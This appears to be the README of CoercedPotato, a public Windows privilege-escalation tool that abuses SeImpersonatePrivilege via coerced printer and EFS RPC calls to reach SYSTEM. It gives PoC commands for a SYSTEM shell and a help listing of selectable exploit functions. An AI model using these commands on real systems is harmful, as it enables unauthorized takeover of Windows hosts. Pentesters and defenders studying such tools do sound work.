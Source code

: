 # Coerced potato

From Patate (LOCAL/NETWORK SERVICE) to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10, Windows 11 and Server 2022.

For more information: [https://blog.hackvens.fr/articles/CoercedPotato.html](https://blog.hackvens.fr/articles/CoercedPotato.html)

A very quick PoooooC:

```txt
.\CoercedPotato.exe -c whoami
```
An other PoC with an interactive shell:

```txt
.\CoercedPotato.exe -c cmd.exe
```
<p align="center">
  <img src="poc.png">
</p>


## Usage

You can check the help message using the `--help` option.

```txt
                                                                  
   ____                            _ ____       _        _        
  / ___|___   ___ _ __ ___ ___  __| |  _ \ ___ | |_ __ _| |_ ___  
 | |   / _ \ / _ \ '__/ __/ _ \/ _` | |_) / _ \| __/ _` | __/ _ \ 
 | |__| (_) |  __/ | | (_|  __/ (_| |  __/ (_) | || (_| | || (_) |
  \____\___/ \___|_|  \___\___|\__,_|_|   \___/ \__\__,_|\__\___/ 
                                                                  
                                           @Hack0ura @Prepouce    
                                                                  
CoercedPotato is an automated tool for privilege escalation exploit using SeImpersonatePrivilege or SeImpersonatePrimaryToken.
Usage: .\CoercedPotato.exe [OPTIONS]

Options:
  -h,--help                   Print this help message and exit
  -c,--command TEXT REQUIRED  Program to execute as SYSTEM (i.e. cmd.exe)
  -i,--interface TEXT         Optionnal interface to use (default : ALL) (Possible values : ms-rprn, ms-efsr
  -n,--exploitId INT          Optionnal exploit ID (Only usuable if interface is defined) 
                               -> ms-rprn : 
                                 [0] RpcRemoteFindFirstPrinterChangeNotificationEx()
                                 [1] RpcRemoteFindFirstPrinterChangeNotification()
                               -> ms-efsr 
                                 [0] EfsRpcOpenFileRaw()
                                 [1] EfsRpcEncryptFileSrv()
                                 [2] EfsRpcDecryptFileSrv()
                                 [3] EfsRpcQueryUsersOnFile()
                                 [4] EfsRpcQueryRecoveryAgents()
                                 [5] EfsRpcRemoveUsersFromFile()
                                 [6] EfsRpcAddUsersToFile()
                                 [7] EfsRpcFileKeyInfo() # NOT WORKING
                                 [8] EfsRpcDuplicateEncryptionInfoFile()
                                 [9] EfsRpcAddUsersToFileEx()
                                 [10] EfsRpcFileKeyInfoEx() # NOT WORKING
                                 [11] EfsRpcGetEncryptedFileMetadata()
                                 [12] EfsRpcEncryptFileExSrv()
                                 [13] EfsRpcQueryProtectors()
                              
  -f,--force BOOLEAN          Force all RPC functions even if it says 'Exploit worked!' (Default value : false)
  --interactive BOOLEAN       Set wether the process should be run within the same shell or open a new window. (Default value : true)
                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                ```
